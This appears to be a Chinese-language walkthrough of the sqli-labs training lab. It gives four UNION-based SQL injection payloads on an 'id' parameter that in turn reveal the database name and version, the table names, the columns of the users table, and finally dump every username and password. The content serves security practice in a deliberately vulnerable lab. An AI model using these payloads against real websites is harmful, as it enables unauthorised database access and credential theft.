![image-20240304232653887](sqli-labs.assets/image-20240304232653887.png)

```mysql
?id=0' union select 1,database(),version()--+
爆出数据库名为security，版本为5.7.26
```

```mysql
?id=0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
爆出的表有emails,referers,uagents,users，其中users有用
```

```mysql
id=0' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users'--+
爆出users表中有三列内容id,username,password
```

```MYSQL
?id=0' union select 1,group_concat(username,'~',password),3 from users--+
直接爆出用户名和密码
```
